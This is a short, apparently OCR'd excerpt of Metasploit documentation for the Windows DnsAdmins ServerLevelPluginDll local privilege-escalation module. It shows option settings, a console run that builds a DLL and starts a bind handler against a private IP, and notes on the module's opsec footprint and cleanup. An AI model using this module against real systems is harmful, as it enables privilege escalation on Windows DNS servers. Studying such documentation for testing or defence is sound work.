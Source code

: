 ```
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     6688             yes       The listen port
   RHOST     172.17.169.123   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Building DLL...
[+] mp4.dll stored at /home/gwillcox/.msf4/local/mp4.dll
[*] Started bind TCP handler against 172.17.169.123:6688
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) >
```

## Notes
1. This module is not particularly opsec-safe as it drops a DLL to disk, writes to
the registry, and is sure to generate a ton of event logs when the DNS service is
stopped and restarted..
2. Automatic cleanup of the dropped DLL is attempted if the DLL has been written to
disk, but if automatic cleanup fails manual cleanup may be necessary.

